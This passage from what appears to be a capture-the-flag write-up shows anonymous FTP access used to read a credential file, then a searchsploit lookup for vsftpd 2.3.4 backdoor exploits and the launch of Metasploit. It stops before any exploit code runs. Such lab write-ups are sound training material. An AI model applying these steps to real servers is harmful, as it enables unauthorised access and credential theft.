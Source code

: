 ```terminal
ftp> ls 
229 Entering Extended Passive Mode (|||10037|).
150 Here comes the directory listing.
-rw-r--r--    1 0        0              18 Sep 10 14:25 note.txt
-rw-r--r--    1 0        0              66 Sep 10 14:27 private.txt
226 Directory send OK.
ftp> 
```
we see that we have 2 files, we can run the `more` command to see what is on these files.
```terminal
ftp> more note.txt
FTP server Hacked
ftp> more private.txt
hello dear admin, your credentials is Passwor123, don't share it 
ftp> 
```
As we can see these output of `note.txt` and `private.txt` files, and here we have found another `pasword:Password123` on the `private.txt` file.

### Exploitation: Exploiting the Version
In our earlier discussion of [version scanning](#enumeration-scanning-version), we discovered that the FTP server was running vsFTPd version 2.3.4. Now, our next step is to explore potential exploits that can target this specific version.
To facilitate this exploration, we'll make use of a valuable tool known as searchsploit. This tool, provided by exploitdb, empowers us to search for exploits right on our local machine, making the process more efficient and focused.
Using that specific version i used:

```terminal
└─# searchsploit vsftpd 2.3.4
---------------------------------------
------------
-------------------
---------------- ---------------------------------
 Exploit Title                                                               
          |  Path
------------------------------------------
-------------------------------------------
- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                         
    | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit) 
                               | unix/remote/17491.rb
```
Here, we have a list of potential exploits associated with vsFTPd 2.3.4:
- `vsftpd 2.3.4 - Backdoor Command Execution`: This exploit, identified by the path "unix/remote/49757.py," targets the FTP server's vulnerability, potentially allowing remote attackers to execute arbitrary commands.
- `vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)`: This is another exploit, found at "unix/remote/17491.rb," which leverages Metasploit to execute commands on the target server.

Now here i see that an Metasploit Exploit is Avalaible for this version of `FTP`. I will use Metasploit tool to exploit that.
i launched it using `msfconsole`:
```terminal
                      Metasploit

       =[ metasploit v6.3.27-dev                          ]
+ -- --=[ 2335 exploits - 1220 auxiliary - 413 post       ]
+ -- --=[ 1385 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: View advanced module options with 
advanced
Metasploit Documentation: https://docs.metasploit.com/
```